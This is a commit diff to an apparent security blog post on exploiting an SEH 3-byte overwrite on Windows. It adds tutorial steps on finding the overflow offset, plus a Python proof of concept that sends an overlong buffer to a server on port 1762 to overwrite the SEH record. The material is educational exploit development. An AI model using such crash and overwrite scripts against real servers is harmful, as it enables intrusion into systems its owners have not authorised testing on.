

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md, in a window 1280 px wide and 1400 px high, scrolled down 4464 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md

````diff
--- a/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
+++ b/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
@@ -143,3 +143,59 @@
 After this script is executed against the server, Immunity catches an exception:
 
 ![](/assets/img/SEH-NULL/2.png)
+
+Looking at the SEH chain, it is possible to see that the nSEH and SEH value have been overwritten:
+
+![](/assets/img/SEH-NULL/3.png)
+
+## Finding control
+
+A pattern is generated:
+
+![](/assets/img/SEH-NULL/4.png)
+
+Such is pasted into the payload:
+
+![](/assets/img/SEH-NULL/5.png)
+
+Looking once again at Immunity, the server causes an exception:
+
+![](/assets/img/SEH-NULL/6.png)
+
+SEH Chain:
+
+![](/assets/img/SEH-NULL/7.png)
+
+The offset is obtained with msf-pattern_offset:
+
+![](/assets/img/SEH-NULL/8.png)
+
+As the offset has been obtained, the next step is to check if the precise overwrite has been obtained.
+
+The PoC is updated:
+
+```python
+import socket
+import sys
+import struct
+
+host = sys.argv[1]
+
+buffer = "A" * 892 + "BBBB" + "CCCC"
+
+z = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+z.connect((host, 1762))
+
+print "[*] Sending Payload!"
+
+z.send("%s\r\n" %buffer)
+
+z.close()
+```
+
+Once the exploit is launched and the server receives the connection, the SEH is successfully overwritten:
+
+![](/assets/img/SEH-NULL/9.png)
+
+## Hijacking the Flow
````
